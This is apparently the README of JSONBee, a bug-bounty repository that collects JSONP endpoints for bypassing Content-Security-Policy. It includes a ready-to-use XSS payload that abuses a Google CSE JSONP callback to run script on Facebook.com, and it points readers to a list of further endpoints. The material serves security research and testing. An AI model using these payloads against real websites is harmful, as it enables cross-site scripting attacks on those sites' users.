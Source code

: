 # JSONBee
Collected JSONP endpoints to help bypass content security policy of different websites.

The tool was presented during HackIT 2018 in Keiv.

# What is JSONBee?

The main idea behind this tool is to bypass content security policy for many websites in an automated way. JSONBee takes an input of a url name (i.e. https://www.facebook.com), parses the CSP (Content-Security Policy), and automatically suggest the XSS payload that would bypass the CSP. It mainly focuses on JSONP endpoints gathered during my bug bounty hunting activities, and could be used to bypass the CSP.

JSONBee relies on 3 methods to gather the JSONP endpoints:
* The repository within this project;
* Google dorks;
* Internet archive (archive.org).

The tool is not yet fully completed as I'm still adding some validations and features too. However, the repository will be hosted here so that anyone can use it till the tool is ready.

The repo contains ready-to-use payloads that can bypass CSP for Facebook.com, Google.com and more.

**Bypasing Facebook.com Content-Security policy:**
Facebook.com allows *.google.com in its CSP policy (script-src directive), thus, below payload would work like a charm to execute JavaScript on Facebook.com:
`"><script+src="https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=alert(1337)"></script>`

If you came across a website that trusts any of the domains in jsonp.txt file in its script-src directive, then pickup a payload  that matches the domain and have fun :)

# How can you help?
You are all welcome to contribute by adding links to sites that uses JSONP endpoins/callbacks to make the repo bigger and more usefull for bug hunters, pentesters, and security researchers.
